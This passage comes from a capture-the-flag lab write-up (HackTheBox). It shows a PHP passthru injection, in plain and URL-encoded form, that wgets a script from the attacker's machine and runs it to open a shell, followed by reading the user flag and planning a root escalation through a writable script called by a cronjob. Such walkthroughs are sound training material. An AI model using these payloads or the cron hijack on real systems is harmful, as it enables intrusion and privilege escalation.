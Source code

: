 After setting up my listener and Python Server, I prepared the PHP command,

`passthru("cd /tmp; wget http://local.machine.ip.addr:hostport/script.sh; chmod +x script.sh; sh script.sh")`

Then URL encoded and injected it from within ZAP, remembering to include my `e` flag. (Okay, I forgot the flag the first time.)

`passthru%28%22cd+%2Ftmp%3B+wget+http%3A%2F%2local.machine.ip.addr%3HOSTPORT%2Fscript.sh%3B+chmod+%2Bx+script.sh%3B+sh+script.sh%22%29`

![A29 - runphpscript](https://i.imgur.com/msOiUNw.png)

Our shell pops!

![A30 - shellpopped](https://i.imgur.com/Z5rz85K.png)



## 4. Getting the User Flag and Privilege Escalation

On HackTheBox CTFs, the user flag is kept in a /home/USERNAME directory.

* `ls /home/`
* `ls /home/john`
* `cat /home/john/user.txt`

![A31-getuserflag](https://i.imgur.com/jKpWYnN.png)

With the user flag in hand, it's time to enumerate and gain privileges.

After checking for some simple things like hidden files in the user directories, I didn't find anything glaringly obvious. For webservers like this box, I like to check the website folders to make sure I've seen everything the site had to offer. This can often include databases or other files that contain credentials that might be re-used. These are usually found in the /var/www directory, so let's take a look.

* `cd /var/www`
* `ls -la`

![A32 - varwww](https://i.imgur.com/nEEgUP3.png)

Some very interesting leads - `admin`, `cronjobs` and a folder called `cmd` we can edit, but is owned by root. Cronjobs often run as root, and can sometimes be misconfigured to interact with a file a lesser user such as ourselves can edit.

* `cd cronjobs`
* `ls -la`
* `cat clearlogs`

![A33-cronjobs](https://i.imgur.com/18fPHis.png)

Interesting, the cronjob calls a file called "/var/www/cmd/logcleared.sh" - wasn't `cmd` the folder we had write access to? I see a strategy forming.

The root-owned cronjob `clearlogs` executes the contents of `/var/www/cmd/logcleared.sh`. We have write access to `/var/www/cmd/`, so we just need to make a script of our own called `logcleared.sh` and it will run as root automatically on a periodic basis.
